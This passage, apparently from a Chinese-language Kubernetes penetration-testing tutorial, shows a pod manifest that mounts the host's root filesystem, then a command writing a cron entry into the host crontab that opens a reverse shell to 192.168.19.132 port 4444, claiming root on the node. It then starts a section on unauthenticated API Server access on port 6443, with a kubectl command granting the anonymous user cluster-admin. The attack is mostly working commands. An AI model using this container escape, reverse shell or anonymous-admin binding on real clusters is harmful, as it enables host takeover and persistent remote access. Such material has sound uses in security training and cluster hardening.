 注意：test.yaml 文件要放在当前目录下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6hjJIvTRJUeQyyPgdtO6J9NYkR7oQnEiamtCxAeZGzDpDZPpXkLj79biaBEibwoESt3CZEg6zySkcvQ/640?wx_fmt=png&from=appmsg "")  
  
内容如下：  
```
apiVersion: v1
kind: Pod
metadata:
  name: test
spec:
  containers:
  - image: nginx
    name: test-container
    volumeMounts:
    - mountPath: /mnt
      name: test-volume
  volumes:
  - name: test-volume
    hostPath:
      path: /
```  
  
进入创建的容器  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6hjJIvTRJUeQyyPgdtO6J9G1mX165ePTVrw2eUSicVR1swL73yXn3w1tXVgMtOqU5XLhNtjfhk2Yg/640?wx_fmt=png&from=appmsg "")  
  
反弹shell  
```
echo -e "* * * * * root bash -i >& /dev/tcp/192.168.19.132/4444 0>&1\n" >> /mnt/etc/crontab
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6hjJIvTRJUeQyyPgdtO6J91Qf12D3XA4HslDZ0l47D1wvAkG0n2lBtMNsiaibsbIoX85vzVO3HJCUg/640?wx_fmt=png&from=appmsg "")  
  
等待1分钟，即可收到反弹的shell  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6hjJIvTRJUeQyyPgdtO6J92YLzna8Gcu2zxcQVwElp0zy4ibpBIzDYod1vHmolau81zbQbLJJn9yg/640?wx_fmt=png&from=appmsg "")  
  
直接拿到node1的节点权限  
### 4.1.2 攻击6443端口 ，API Server未授权访问 （master节点）  
  
一些集群由于鉴权配置不当，将"system:anonymous"用户绑定到"cluster-admin"用户组，从而使6443端口允许匿名用户以管理员权限向集群内部下发指令。  
  
正常访问6443端口应该是没有未授权的，如下图所示：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6hjJIvTRJUeQyyPgdtO6J9XR3HP6BIhHhqQ4H0Waap7Y7FSZy5edeLWJUeIgbibzSBHOeedChHBdw/640?wx_fmt=png&from=appmsg "")  
  
  
环境准备  
  
master节点执行命令：  
```
kubectl create clusterrolebinding system:anonymous   --clusterrole=cluster-admin   --user=system:anonymous
```  
  